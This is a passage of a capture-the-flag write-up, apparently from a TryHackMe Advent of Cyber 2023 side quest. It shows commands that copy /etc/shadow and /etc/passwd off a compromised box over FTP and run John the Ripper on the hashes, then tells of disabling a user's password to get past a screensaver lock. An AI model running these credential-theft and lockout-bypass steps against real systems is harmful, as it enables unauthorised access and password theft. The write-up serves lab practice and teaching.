

A password prompt from the screen saver...

> I'll admit that if you're taking screenshots for your write up and get to this screen before it goes to screensaver, you can skip the next step. But for completeness I locked it to show you what I did in the challenge.
> 
Well let's try the safest option of exfiltrating `/etc/passwd` & `/etc/shadow` to see if we can crack the password.

```bash
## On remote box ##
(unreachable)/home/ubuntu/.vnc # /etc/file/busybox cp /etc/shadow /tmp/ftp/shado
(unreachable)/home/ubuntu/.vnc # /etc/file/busybox cp /etc/passwd /tmp/ftp/passwd
... ## On attack box ## ...
ftp> download shado
?Invalid command.
ftp> get shado
local: shado remote: shado
200 Operation successful
150 Opening BINARY connection for shado (529 bytes)
100% |*************************************************************************************************************|   529        9.17 MiB/s    00:00 ETA
226 Operation successful
529 bytes received in 00:00 (3.82 MiB/s)
ftp> get passwd
local: passwd remote: passwd
200 Operation successful
150 Opening BINARY connection for passwd (969 bytes)
100% |*************************************************************************************************************|   969       14.43 MiB/s    00:00 ETA
226 Operation successful
969 bytes received in 00:00 (4.73 MiB/s)

...
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ john --wordlist=/usr/share/wordlists/john.lst johnshadow 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2023-12-12 21:47) 0g/s 88650p/s 88650c/s 88650C/s 123456..sss
Session completed. 
                                                                                                                                                          
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ john --show johnshadow                     
0 password hashes cracked, 2 left
```

Okay well that didn't work. Let's just disable passwords for this user, I'm sure they won't mind.

> Now you see it


> Now you don't


Wiggle the mouse again and?



We're truly in now.



And here's all the juicy sausage. Looks like there's a couple easter eggs I didn't find in my journey, but I think I've had enough of this box for now, maybe you can find what these extra scripts are for.

One last side quest to do!